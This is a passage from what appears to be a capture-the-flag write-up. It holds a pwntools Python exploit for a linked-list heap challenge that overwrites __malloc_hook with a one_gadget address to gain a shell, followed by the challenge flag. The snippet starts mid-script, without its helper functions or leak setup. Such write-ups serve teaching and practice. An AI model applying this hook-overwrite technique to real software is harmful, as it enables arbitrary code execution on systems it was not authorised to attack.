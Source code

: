 ```python


change(p64(libc.sym["__malloc_hook"]))


mark(1, 2)


change("AAAA")

for i in range(5):
    mark(i, 0)



og = 0xe6c81


addr = libc.address + og

gdb.attach(p, """break * {}\nc""".format(hex(addr)))




check(0, 0x20, "BBBB")
check(0, 0x20, p64(addr))


reset(0, 0)




p.interactive()
```

Flag: `actf{whenever_dark_has_fallen_you_know_the_spirit_of_the_party_starts_to_come_alive_until_the_linkedlist_is_corrupted_86cd89dc33b2bbc691af4857}`
